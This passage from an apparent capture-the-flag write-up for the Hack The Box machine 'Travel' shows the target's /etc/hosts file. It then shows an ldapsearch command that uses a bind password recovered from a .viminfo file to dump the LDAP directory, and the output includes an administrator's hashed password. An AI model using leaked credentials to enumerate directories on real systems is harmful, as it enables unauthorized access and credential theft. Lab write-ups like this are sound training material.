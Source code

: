 /etc/hosts:
```
127.0.0.1 localhost
127.0.1.1 travel
172.20.0.10 ldap.travel.htb

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Now, using the information in .ldaprc and the BINDPW in .viminfo, we can dump the ldap server:

```
ldapsearch -w Theroadlesstraveled -D "cn=lynik-admin,dc=travel,dc=htb" -b "dc=travel,dc=htb" -h ldap.travel.htb

# extended LDIF                                           
#                                                         
# LDAPv3                                                  
# base <dc=travel,dc=htb> with scope subtree              
# filter: (objectclass=*)                                                                                            
# requesting: ALL                                         
#                                                         
                                                                                                                     
# travel.htb                                              
dn: dc=travel,dc=htb                                      
objectClass: top                                          
objectClass: dcObject                                                                                                
objectClass: organization                                 
o: Travel.HTB                                             
dc: travel                                                                                                           
                                                          
# admin, travel.htb                                       
dn: cn=admin,dc=travel,dc=htb                             
objectClass: simpleSecurityObject                         
objectClass: organizationalRole                           
cn: admin                                                 
description: LDAP administrator                                                                                      
                                                          
# servers, travel.htb                                     
dn: ou=servers,dc=travel,dc=htb                                                                                      
description: Servers                                      
objectClass: organizationalUnit                           
ou: servers                                               
                                                                                                                     
# lynik-admin, travel.htb                                 
dn: cn=lynik-admin,dc=travel,dc=htb                       
description: LDAP administrator                                                                                      
objectClass: simpleSecurityObject                         
objectClass: organizationalRole                           
cn: lynik-admin                                           
userPassword:: e1NTSEF9MEpaelF3blZJNEZrcXRUa3pRWUxVY3ZkN1NwRjFRYkRjVFJta3c9PQ=
 =                              
 ...
 # domainusers, groups, linux, servers, travel.htb
```
